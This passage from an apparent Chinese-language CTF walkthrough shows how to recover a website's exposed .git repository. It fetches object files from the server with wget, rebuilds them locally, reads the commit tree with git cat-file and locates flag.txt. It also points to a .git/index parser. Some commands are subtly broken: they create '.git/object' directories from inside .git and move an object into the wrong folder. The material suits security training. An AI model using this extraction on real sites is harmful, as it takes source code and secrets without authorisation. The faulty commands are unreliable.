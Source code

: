     # create an empty .git repository
    git init test
    cd test/.git
    
    # download the file
    wget http://web.site/.git/objects/26/e35470d38c4d6815bc4426a862d5399f04865c
    
    # first byte for subdirectory, remaining bytes for filename
    mkdir .git/object/26
    mv e35470d38c4d6815bc4426a862d5399f04865c .git/objects/26/
    
    # display the file
    git cat-file -p 26e35470d38c4d6815bc4426a862d5399f04865c
        tree 323240a3983045cdc0dec2e88c1358e7998f2e39
        parent 15ca375e54f056a576905b41a417b413c57df6eb
        author Michael <michael@easyctf.com> 1489390329 +0000
        committer Michael <michael@easyctf.com> 1489390329 +0000
        Initial.
    ```
4. 访问文件树 323240a3983045cdc0dec2e88c1358e7998f2e39
    ```powershell
    wget http://web.site/.git/objects/32/3240a3983045cdc0dec2e88c1358e7998f2e39
    mkdir .git/object/32
    mv 3240a3983045cdc0dec2e88c1358e7998f2e39 .git/objects/32/
    
    git cat-file -p 323240a3983045cdc0dec2e88c1358e7998f2e39
        040000 tree bd083286051cd869ee6485a3046b9935fbd127c0        css
        100644 blob cb6139863967a752f3402b3975e97a84d152fd8f        flag.txt
        040000 tree 14032aabd85b43a058cfc7025dd4fa9dd325ea97        fonts
        100644 blob a7f8a24096d81887483b5f0fa21251a7eefd0db1        index.html
        040000 tree 5df8b56e2ffd07b050d6b6913c72aec44c8f39d8        js
    ```
5. 查看数据 (flag.txt)
    ```powershell
    wget http://web.site/.git/objects/cb/6139863967a752f3402b3975e97a84d152fd8f
    mkdir .git/object/cb
    mv 6139863967a752f3402b3975e97a84d152fd8f .git/objects/32/
    git cat-file -p cb6139863967a752f3402b3975e97a84d152fd8f
    ```

**从 .git/index 恢复文件内容**

使用 git 索引文件解析器 https://pypi.python.org/pypi/gin（python3）。

```powershell
pip3 install gin
gin ~/git-repo/.git/index
```
